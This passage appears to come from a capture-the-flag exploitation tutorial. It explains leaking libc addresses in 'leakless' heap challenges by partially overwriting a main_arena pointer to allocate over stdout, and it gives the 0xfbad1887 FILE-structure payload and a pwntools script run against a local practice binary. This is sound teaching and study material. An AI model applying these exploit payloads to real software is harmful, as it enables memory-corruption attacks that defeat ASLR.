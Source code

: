 ------

### 3 - the simple libc addresses leak technique

This method is used in many **"leakless"** heap challenges, to have a leak of some libc addresses.

Most of the time, these heap challenges reuse a `main_arena` libc address leaved on heap by an unsorted memory chunk for example, and by modifying its two `LSB` bytes, try to get a chunk of memory allocated on `stdout` structure.

In most of the libc, `stdout` is very near from `main_arena`, for example for `libc-2.38` `stdout` is just 0xb00 bytes after `main_arena`.

As the lower 12bits of any libc address is fixed and does not vary with `ASLR`, overwriting two lsb bytes of a  `main_arena` address on heap  with `stdout` address two `LSB` bytes, leaves only 4 bits of ASLR to be guessed.

There is a 1/16 chance of having an allocation on `stdout`, so it is a very easy and quick bruteforce.

to make `stdout` leaking some libc addresses, we use a payload like this to overwrite beginning of `stdout`structure:

```python
payload = p64(0xfbad1887)+p64(0)*3+p8(0)
```

You can see that first value modify `_flags`entry, changing its original value 0xfbad2887 to 0xfbad1887.

then it set the three pointers `_IO_read_ptr`, `_IO_read_end`, `_IO_read_base`  to zero.

and it set, the lsb byte of `_IO_write_base`to zero.

here is a small python exploit to test this this on our `prog`binary

```python
from pwn import *
context.log_level="debug"
p = process("./prog")

# define a write macro
def write(addr, data):
  p.sendlineafter('choice> ', '1')
  p.sendlineafter('> ', str(addr))
  p.sendlineafter('size> ', str(len(data))+'\x00')
  p.sendafter('data> ', data)

    # use given leak for experiments, will need no leak on real challenge
p.recvuntil('leak: ', drop=True)
stdout = int(p.recvuntil('\n',drop=True),16)

payload = p64(0xfbad1887)+p64(0)*3+p8(0)
write(stdout, payload)
p.interactive()
```

